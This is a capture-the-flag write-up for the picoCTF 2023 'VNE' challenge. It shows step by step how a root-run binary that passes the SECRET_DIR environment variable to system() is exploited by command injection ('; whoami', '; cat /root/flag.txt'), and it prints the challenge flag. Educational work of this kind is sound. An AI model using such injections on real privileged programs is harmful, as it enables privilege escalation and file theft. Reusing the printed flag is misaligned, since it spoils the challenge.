

# VNE - picoCTF 2023 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description


 
## VNE Solution

Let us connect to the SSH server as described in the challenge description:
```console
┌─[evyatar@parrot]─[/pictoctf2023/binary_exploitation/VNE]
└──╼ $ ssh ctf-player@saturn.picoctf.net -p 53662
ctf-player@saturn.picoctf.net's password:

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ls
bin
```

We can see that we have one binary file called `bin`.

Let's try to run it:
```console
ctf-player@pico-chall$ ./bin 
Error: SECRET_DIR environment variable is not set
```

The binary requires the `SECRET_DIR` environment variable to be set, Let's set it:
```console
ctf-player@pico-chall$ export SECRET_DIR="test"
ctf-player@pico-chall$ ./bin 
Listing the content of test as root: 
ls: cannot access 'test': No such file or directory
Error: system() call returned non-zero value: 512
```

From the given output, we can observe that the binary is using the system function and encountering an error `No such file or directory` when trying to list the contents of the `test` directory. Based on this, we can infer that the binary is calling the `system` function with a command like `system("ls <VALUE OF SECRET_DIR>")`.

To exploit this, we can perform command injection by setting our command in the `SECRET_DIR` environment variable, for example: `export SECRET_DIR="; whoami"`. This would result in the `system` call being executed as `system("ls ; whoami")`, allowing us to execute arbitrary commands.

Let's try it:
```console
ctf-player@pico-chall$ ./bin 
Listing the content of ; whoami as root: 
bin
root
```

As we injected the command `; whoami` into the `SECRET_DIR` environment variable, the binary executed the `system` call as `system("ls ; whoami")` and listed the contents of the current directory followed by the output of `whoami` command. This confirms that we have successfully executed a command injection attack.

To retrieve the flag, we can now set the `SECRET_DIR` variable to execute the `cat` command on the `/root/flag.txt` file, like so: `export SECRET_DIR="; cat /root/flag.txt"`. Upon running the binary again, the `system` call will execute as `system("ls ; cat /root/flag.txt")` and display the contents of the flag file on the console:
```console
ctf-player@pico-chall$ export SECRET_DIR="; cat /root/flag.txt"
ctf-player@pico-chall$ ./bin 
Listing the content of ; cat /root/flag.txt as root: 
bin
picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}
ctf-player@pico-chall$ 
```

And we get the flag `picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`.